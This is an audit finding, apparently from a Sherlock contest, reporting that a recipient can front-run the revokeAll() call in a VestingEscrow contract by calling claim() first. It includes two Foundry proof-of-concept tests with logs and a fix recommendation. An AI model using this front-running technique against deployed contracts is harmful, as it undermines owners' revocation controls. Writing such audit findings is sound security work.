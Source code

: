 Shallow Wooden Oyster

medium

# The revokeAll() method are subject to front-run attack

## Summary
https://github.com/sherlock-audit/2024-01-rio-vesting-escrow/blob/2d14c2b84b69c53a45c81aa4f907af9617f9a94f/rio-vesting-escrow/src/VestingEscrow.sol#L177
`revokeAll()` method is uses to disable further flow of tokens and revoke all tokens to owner,
but user can front-runs calls `claim() `method and abtain` unclaimed() ` vesting .

## Vulnerability Detail
In normal circumstances，owner decides to  `revokeAll()` and  Recipient is unaware of this
```solidity
      function testPoc() public{
        vm.warp(block.timestamp + ((endTime - startTime) / 4));
        console.log("unclaimed amount",deployedVesting.unclaimed());
        vm.warp(block.timestamp + ((endTime - startTime) / 2));
        console.log("unclaimed amount",deployedVesting.unclaimed());

        //vm.prank(recipient);
        console.log("recipient balance before revokeAll",token.balanceOf(recipient));
        //uint256 claimAmount = deployedVesting.claim(recipient, type(uint256).max);
        console.log("owner balance before revokeAll",token.balanceOf(factory.owner()));
        vm.prank(factory.owner());
        deployedVesting.revokeAll();

        console.log("recipient balance after revokeAll",token.balanceOf(recipient));
        console.log("owner balance after revokeAll",token.balanceOf(factory.owner()));
    }

    Logs:
  unclaimed amount 250000000000000000
  unclaimed amount 750000000000000000
  recipient balance before revokeAll 0
  owner balance before revokeAll 0
  recipient balance after revokeAll 0
  owner balance after revokeAll 1000000000000000000

```

Recipient sees this and front-runs calls `claim()` method and claim  vesting.
```solidity
function testPoc() public{
        vm.warp(block.timestamp + ((endTime - startTime) / 4));
        console.log("unclaimed amount",deployedVesting.unclaimed());
        vm.warp(block.timestamp + ((endTime - startTime) / 2));
        console.log("unclaimed amount",deployedVesting.unclaimed());

        console.log("front-run----------");
        
        vm.prank(recipient);
        console.log("recipient balance before revokeAll",token.balanceOf(recipient));
        uint256 claimAmount = deployedVesting.claim(recipient, type(uint256).max);
        console.log("owner balance before revokeAll",token.balanceOf(factory.owner()));
        vm.prank(factory.owner());
        deployedVesting.revokeAll();

        console.log("recipient balance after revokeAll",token.balanceOf(recipient));
        console.log("owner balance after revokeAll",token.balanceOf(factory.owner()));

    }
    [PASS] testPoc() (gas: 150302)
Logs:
  unclaimed amount 250000000000000000
  unclaimed amount 750000000000000000
  front-run----------
  recipient balance before revokeAll 0
  owner balance before revokeAll 0
  recipient balance after revokeAll 750000000000000000
  owner balance after revokeAll 250000000000000000

```


## Impact
The impact is a violation of system design and destroys the normal functioning of the `revokeAll()` method.

## Code Snippet
https://github.com/sherlock-audit/2024-01-rio-vesting-escrow/blob/2d14c2b84b69c53a45c81aa4f907af9617f9a94f/rio-vesting-escrow/src/VestingEscrow.sol#L177
## Tool used

Manual Review

## Recommendation
Lock the claim() method before calling the revokeAll() method